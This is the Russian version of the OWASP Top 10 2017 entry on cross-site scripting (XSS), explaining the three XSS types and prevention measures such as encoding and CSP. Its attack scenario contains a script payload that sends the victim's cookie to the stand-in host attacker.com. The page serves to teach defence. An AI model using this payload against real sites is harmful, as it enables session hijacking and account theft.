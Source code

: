 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например в виде кражи учетных данных, перехвата сессий или установки вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное межсайтовое выполнение сценариев (Reflected XSS)__: Приложение или API включает непроверенные и непреобразованные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев (Stored XSS)__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __Межсайтовое выполнение сценариев на основе объектной модели документа (DOM XSS)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим преобразованием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Преобразовывать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) содержит подробные инструкции по преобразованию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или преобразования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Проактивная защита OWASP: Проверка данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [Памятка OWASP: Предотвращение XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [Памятка OWASP: Предотвращение XSS на основе DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [Памятка OWASP: Обход фильтра XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [Проект кодировщика Java от OWASP](https://owasp.org/www-project-java-encoder/)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)